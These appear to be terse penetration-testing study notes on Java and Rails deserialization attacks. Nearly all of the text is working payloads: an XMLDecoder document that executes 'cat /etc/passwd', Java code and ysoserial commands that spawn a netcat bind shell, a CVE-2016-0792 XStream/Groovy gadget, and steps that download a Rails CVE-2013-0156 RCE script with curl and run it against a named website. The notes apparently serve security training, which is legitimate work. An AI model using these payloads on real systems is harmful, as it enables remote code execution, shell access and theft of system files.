 ## PTL White Random Notes

#### XMLDecoder
```
Runtime run = Runtime.getRuntime();
String[] commands = new String[] { "/usr/bin/nc", "-l","-p", "9999", "-e", "/bin/sh" };
run.exec(commands );
```
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="2">
          <void index="0">
              <string>cat</string>
          </void>
          <void index="1">
              <string>/etc/passwd</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

#### CVE-2016-0792
```
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando"/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>/usr/local/bin/score</string>
                <string>39c0b5b5-3dab-4d9b-a685-27503157e66f</string>
              </command>
            </owner>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
    <int>1</int>
  </entry>
</map>
```

#### ObjectInputStream

- java -jar ysoserial-0.0.4-all.jar Spring1 "/usr/bin/nc -l -p 9999 -e /bin/sh" 
- To avoid new lines on linux => base64 -w 0
- Burp Extension JavaSerialKiller can also be used
- Now we need to find where the serialized object is used. A good indicator is the string rO0, which is the base64 encoded version of \xac\xed\x00.
- java -jar ysoserial-0.0.4.jar Spring1 "/usr/bin/nc -l -p 9999 -e /bin/sh" | base64 -w 0
- nc vulnerable 9999
- java -jar ysoserial-0.0.4.jar Spring1 "cat /etc/passwd" | base64 -w 0
- rO0ABXNyAA92dWxuZXJhYmxlLlVzZXI5zyo_QTFh_wIAAUwACHVzZXJuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7eHB0AAR0ZXN0
- the exploitation of a call to the method readObject() on an ObjectInputStream object in an Spring application

#### CVE-2013-0156: Rails Object Injection

- https://gist.github.com/postmodern/4499206
- X-HTTP-Method-Override
    
- docker run -it ruby:2 /bin/bash
- gem install ronin-support
- curl https://gist.githubusercontent.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb -o rails_rce.rb
- ruby rails_rce.rb https://pelotascore.com/ '`cat /etc/password`'
